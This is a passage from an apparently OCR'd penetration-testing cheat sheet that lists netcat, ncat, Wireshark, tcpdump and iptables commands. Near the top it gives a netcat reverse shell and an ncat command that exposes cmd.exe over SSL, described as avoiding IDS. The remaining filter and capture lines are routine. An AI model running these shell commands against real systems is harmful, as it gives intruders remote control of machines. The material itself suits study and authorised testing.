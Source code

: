     *   Create a reverse shell with Ncat using bash on Linux  
        `nc -nv $ip 4444 -e /bin/bash`

    *   Netcat for Banner Grabbing:

        `echo "" | nc -nv -w1 <IP Address> <Ports>`

*   Ncat - Netcat for Nmap project which provides more security avoid IDS

    *   Reverse shell from windows using cmd.exe using ssl  
        `ncat --exec cmd.exe --allow $ip -vnl 4444 --ssl`

    *   Listen on port 4444 using ssl  
        `ncat -v $ip 4444 --ssl`

*   Wireshark

    *   Show only SMTP (port 25) and ICMP traffic:

        `tcp.port eq 25 or icmp`

    *   Show only traffic in the LAN (192.168.x.x), between workstations and servers -- no Internet:

        `ip.src==192.168.0.0/16 and ip.dst==192.168.0.0/16`

    *   Filter by a protocol ( e.g. SIP ) and filter out unwanted IPs:

        `ip.src != xxx.xxx.xxx.xxx && ip.dst != xxx.xxx.xxx.xxx && sip`

    *   Some commands are equal

        `ip.addr == xxx.xxx.xxx.xxx`

        Equals

        `ip.src == xxx.xxx.xxx.xxx or ip.dst == xxx.xxx.xxx.xxx`

        `ip.addr != xxx.xxx.xxx.xxx`

        Equals

        `ip.src != xxx.xxx.xxx.xxx or ip.dst != xxx.xxx.xxx.xxx`

*   Tcpdump

    *   Display a pcap file  
        `tcpdump -r passwordz.pcap`

    *   Display ips and filter and sort  
        `tcpdump -n -r passwordz.pcap | awk -F" " '{print $3}' | sort -u | head`

    *   Grab a packet capture on port 80  
        `tcpdump tcp port 80 -w output.pcap -i eth0`

    *   Check for ACK or PSH flag set in a TCP packet  
        `tcpdump -A -n 'tcp[13] = 24' -r passwordz.pcap`

*   IPTables

    *   Deny traffic to ports except for Local Loopback

        `iptables -A INPUT -p tcp --destination-port 13327 ! -d $ip -j DROP`

        `iptables -A INPUT -p tcp --destination-port 9991 ! -d $ip -j DROP`

